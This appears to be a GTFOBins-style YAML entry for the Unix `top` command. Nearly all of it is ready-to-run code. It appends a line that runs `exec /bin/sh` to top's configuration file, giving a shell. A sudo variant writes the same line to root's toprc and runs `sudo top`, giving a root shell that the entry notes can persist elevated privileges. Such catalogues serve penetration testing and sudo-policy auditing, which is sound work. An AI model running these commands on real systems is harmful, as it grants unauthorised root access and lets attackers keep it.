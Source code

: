 description: This requires that an existing configuration file is present, to create one run `top` then type `Wq`. Note down the actual configuration file path and use it in the below examples.
functions:
  shell:
    - code: |
        echo -e 'pipe\tx\texec /bin/sh 1>&0 2>&0' >>~/.config/procps/toprc
        top
        # press return twice
        reset
  sudo:
    - description: This requires that the root configuration file is writable and might be used to persist elevated privileges.
      code: |
        echo -e 'pipe\tx\texec /bin/sh 1>&0 2>&0' >>/root/.config/procps/toprc
        sudo top
        # press return twice
        reset
---
